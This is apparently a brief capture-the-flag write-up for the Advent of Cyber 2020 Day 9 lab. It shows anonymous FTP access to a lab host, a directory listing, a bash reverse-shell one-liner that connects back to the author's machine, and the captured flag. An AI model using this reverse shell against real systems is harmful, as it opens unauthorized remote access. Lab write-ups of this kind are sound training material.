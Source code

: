 # Advent of cyber 2020

# [Day 9] Networking Anyone can be Santa!


# Taget IP : 10.10.253.71

# My ip : 10.17.6.109

# port 21 FTP

anonymous login available

```bash
ftp 10.10.253.71
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16  2020 backups
drwxr-xr-x    2 0        0            4096 Nov 16  2020 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16  2020 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16  2020 public

```


```bash

bash -i >& /dev/tcp/10.17.6.109/4444 0>&1


```

flag.txt : THM{even_you_can_be_santa}
